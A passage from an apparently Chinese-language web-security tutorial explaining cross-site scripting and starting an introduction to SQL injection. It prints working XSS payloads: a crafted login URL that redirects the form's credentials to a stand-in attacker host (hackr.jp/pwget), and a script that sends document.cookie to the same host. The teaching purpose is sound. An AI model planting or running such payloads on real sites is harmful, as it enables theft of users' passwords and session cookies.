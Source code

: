 　　之后，ID及密码会传给该正规网站，而接下来仍然按正常登录步骤，用户很难意识到自己的登录信息已泄露

　　对`http://example.jp/login?ID=yama`请求时对应的HTML源代码(摘录)

<div class="cnblogs_code">
<pre>&lt;div class="logo"&gt;
　　&lt;img src="imglogo.gif" alt="E! 拍卖会" /&gt;
&lt;/div&gt;
&lt;form action="http://example.jp/login" method="post" id="login"&gt;
&lt;div class="input_id"&gt;
　　ID &lt;input type="text" name="ID" value="yama" /&gt;    
&lt;/div&gt;</pre>
</div>

　　`http://example.jp/login?ID="&gt;&lt;script&gt;var+f=document.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method="get";&lt;/script&gt;&lt;span+s="`对请求时对应的HTML源代码(摘录)

<div class="cnblogs_code">
<pre>&lt;div class="logo"&gt;
　　&lt;img src="imglogo.gif" alt="E! 拍卖会 /&gt;
&lt;/div&gt;
&lt;form action="http://example.jp/login" method="post" id="login"&gt;
&lt;div class="input_id"&gt;
　　ID &lt;input type="text" name="ID" value=""&gt;&lt;script&gt;var f=document.getElementById("login"); f.action="http://hackr.jp/pwget"; f.method="get";&lt;/script&gt;&lt;span s=""/&gt;
&lt;/div&gt;</pre>
</div>

**对用户Cookie的窃取攻击**

　　除了在表单中设下圈套之外，下面那种恶意构造的脚本同样能够以跨站脚本攻击的方式，窃取到用户的Cookie信息

<div class="cnblogs_code">
<pre>&lt;script src=http://hackr.jp/xss.js&gt;&lt;/script&gt;</pre>
</div>

　　该脚本内指定的`http://hackr.jp/xss.js`文件。即下面这段采用JavaScript编写的代码

<div class="cnblogs_code">
<pre>var content = escape(document.cookie);
document.write("&lt;img src=http://hackr.jp/?");
document.write(content); 
document.write("&gt;");</pre>
</div>

　　在存在可跨站脚本攻击安全漏洞的Web应用上执行上面这段JavaScript程序，即可访问到该Web应用所处域名下的Cookie信息。然后这些信息会发送至攻击者的Web网站(`http://hackr.jp/`)，记录在他的登录日志中。结果，攻击者就这样窃取到用户的Cookie信息了

![webAttack10](https://pic.xiaohuochai.site/blog/HTTP_webAttack10.png)

【SQL注入攻击】

**会执行非法SQL的SQL注入攻击**

　　SQL注入(SQL Injection)是指针对Web应用使用的数据库，通过运行非法的SQL而产生的攻击。该安全隐患有可能引发极大的威胁，有时会直接导致个人信息及机密信息的泄露

　　Web应用通常都会用到数据库，当需要对数据库表内的数据进行检索或添加、删除等操作时，会使用SQL语句连接数据库进行特定的操作。如果在调用SQL语句的方式上存在疏漏，就有可能执行被恶意注入(Injection)非法SQL语句
